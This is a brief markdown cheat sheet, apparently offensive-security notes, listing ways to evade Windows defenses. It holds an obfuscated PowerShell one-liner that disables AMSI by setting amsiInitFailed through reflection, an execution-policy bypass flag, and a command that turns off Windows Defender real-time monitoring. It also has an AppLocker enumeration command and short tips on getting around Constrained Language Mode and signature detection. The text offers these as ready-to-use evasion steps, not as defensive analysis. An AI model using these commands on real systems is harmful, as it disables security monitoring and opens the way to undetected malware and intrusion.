 # Bypass Technique
> test

## ASMI
```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

## Execution Policy
bypass execution retriction
```powershell
powershell -ep bypass
```
## Window Defender
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

## Applocker
see app locker policy
```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

## Constraint Language Mode
It cannot run with dot in the front, you could modified it by appendindg the function you want to call on the end of the ps file.

## Signature base
Changing the name of the ps file and/or functions